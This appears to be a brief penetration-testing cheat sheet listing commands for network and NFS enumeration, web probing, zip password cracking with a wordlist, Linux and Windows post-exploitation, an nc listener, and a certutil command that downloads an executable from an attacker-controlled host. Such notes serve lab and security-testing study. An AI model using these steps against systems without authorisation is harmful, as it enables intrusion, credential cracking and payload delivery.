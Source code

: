## Enumeration 
arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap --sC ? 

gobuster ######

## Web Enumeration

Curl -I http://[WebsiteORip]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

**Linux wget and curl commands**

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

## Listener
nc -nlvp [port]

## Directory hosting
python -m SimpleHTTPServer




